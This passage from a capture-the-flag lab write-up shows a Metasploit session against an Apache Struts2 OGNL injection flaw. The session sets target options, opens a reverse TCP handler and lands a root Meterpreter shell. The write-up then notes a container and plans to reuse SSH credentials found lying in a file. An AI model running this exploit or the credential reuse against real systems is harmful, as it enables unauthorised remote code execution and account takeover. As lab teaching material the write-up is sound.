 ```bash
   FETCH_FILENAME      trYnjnLnrvV      no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               **************   yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/struts2_content_type_ognl) > set RHOSTS *********
RHOSTS => 10.10.250.226
msf6 exploit(multi/http/struts2_content_type_ognl) > set RPORT 80
RPORT => 80
msf6 exploit(multi/http/struts2_content_type_ognl) > set TARGETURI /showcase.action
TARGETURI => /showcase.action
msf6 exploit(multi/http/struts2_content_type_ognl) > set LHOST *********************
LHOST => 10.17.88.193
msf6 exploit(multi/http/struts2_content_type_ognl) > exploit 

[*] Started reverse TCP handler on *************** 
[*] Sending stage (3045380 bytes) to ***************
[*] Meterpreter session 1 opened (***************  -> *************** ) at 2023-11-14 21:26:44 +0530

meterpreter > sysinfo 
Computer     : 172.17.0.2
OS           : Debian 8.8 (Linux 4.14.146-93.123.amzn1.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid 
Server username: root
```

5. What better we are root. But something seems off. We can't do many things and many a files are missing. Are we in a container? Let's check.
    1. We are indeed in a container. Shown through limited processes, docker-env file and missing common file sin the directories of users.
    2. But we do find some legit [ssh-creds](https://github.com/pratty010/CTF/blob/master/THM%20CTF/Advent%20of%20Cyber/2K19/day_10/ssh/web-root/ssh-creds.txt) lying around for santa as `ssh-creds.txt`. Let's try to reuse them for a shell ont he real box.
    3. Let's also get the `flag1` lying around in the container.
